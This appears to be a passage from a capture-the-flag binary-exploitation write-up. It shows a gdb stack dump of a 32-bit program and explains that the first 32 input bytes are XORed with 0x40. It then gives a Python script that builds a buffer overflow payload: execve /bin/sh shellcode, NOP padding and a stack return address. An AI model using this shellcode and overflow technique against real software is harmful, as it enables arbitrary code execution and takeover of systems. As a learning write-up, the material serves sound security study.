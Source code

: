 ```

Breakpoint 1, 0x08049d90 in Process(SWish&) ()
(gdb) s
Single stepping until exit from function _ZL7ProcessR5SWish,
which has no line number information.
0x08049e1d in DoImport(char const*) ()
(gdb) x/260bx $esp
0xffffdd60:     0x01    0x01    0x01    0x01    0x01    0x01    0x01    0x01
0xffffdd68:     0x01    0x01    0x01    0x01    0x01    0x01    0x01    0x01
0xffffdd70:     0x01    0x01    0x01    0x01    0x01    0x01    0x01    0x01
0xffffdd78:     0x01    0x01    0x01    0x01    0x01    0x01    0x01    0x01
0xffffdd80:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffdd88:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x42
0xffffdd90:     0x00    0xdf    0xff    0xff    0x74    0xde    0xff    0xff
0xffffdd98:     0x80    0xde    0xff    0xff    0x89    0xac    0x04    0x08
0xffffdda0:     0x38    0x2b    0x0e    0x08    0xc8    0x81    0x04    0x08
0xffffdda8:     0x00    0x00    0x00    0x00    0xd0    0xdd    0xff    0xff
0xffffddb0:     0x38    0x2b    0x0e    0x08    0x38    0x2b    0x0e    0x08
0xffffddb8:     0x00    0x00    0x00    0x00    0x58    0xa6    0x04    0x08
0xffffddc0:     0x38    0x2b    0x0e    0x08    0x38    0x2b    0x0e    0x08
0xffffddc8:     0x38    0x2b    0x0e    0x08    0x58    0xa6    0x04    0x08
0xffffddd0:     0x02    0x00    0x00    0x00    0x74    0xde    0xff    0xff
0xffffddd8:     0x80    0xde    0xff    0xff    0x14    0xde    0xff    0xff
0xffffdde0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xffffdde8:     0x00    0x00    0x00    0x00    0x38    0x2b    0x0e    0x08
0xffffddf0:     0x06    0x00    0x00    0x00    0x3c    0x00    0x00    0x00
0xffffddf8:     0x03    0x00    0x00    0x00    0x30    0x00    0x00    0x00
0xffffde00:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xffffde08:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xffffde10:     0x00    0x00    0x00    0x00    0x38    0x2b    0x0e    0x08
0xffffde18:     0x38    0x2b    0x0e    0x08    0xc8    0x81    0x04    0x08
0xffffde20:     0x00    0x00    0x00    0x00    0x55    0x0e    0x2b    0x66
0xffffde28:     0xba    0x8d    0xdc    0x90    0x00    0x00    0x00    0x00
0xffffde30:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xffffde38:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xffffde40:     0x38    0x2b    0x0e    0x08    0x02    0x00    0x00    0x00
0xffffde48:     0x00    0x00    0x00    0x00    0x42    0x9c    0x04    0x08
0xffffde50:     0x00    0x97    0x04    0x08    0x02    0x00    0x00    0x00
0xffffde58:     0x74    0xde    0xff    0xff    0x30    0xac    0x04    0x08
0xffffde60:     0xd0    0xac    0x04    0x08
```
We notice the `0x01` in the beginning. Those are the result of the XOR `0x40` from earlier `chr(A)=0x41` and
`0x41 XOR 0x40 = 0x01`.
So if we find some shell code to execute we need to XOR the first 32 byte with `0x40`.
Finding some shellcode online that spawns a shell is quite easy. After preparing it by XOR'ing by 0x40
We point the last 4 byte to the beginning of our stack.
To test different payloads I wrote this script:
```
import os
shellcode = b"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"
offset = b"\x60\xdd\xff\xff" #Reversed cause stacks are weird
nopslide = b"\x90"*19 # Multiplier needs to be changed with other payloads
payload = bytearray(shellcode + nopslide + offset)
for i in range(0,32):
	payload[i] = payload[i]^0x40
print("$(python3 -c \'import sys; sys.stdout.buffer.write(b\"" + ''.join(['\\' + hex(x)[1:] for x in bytearray(payload)]) + "\")\')")
```
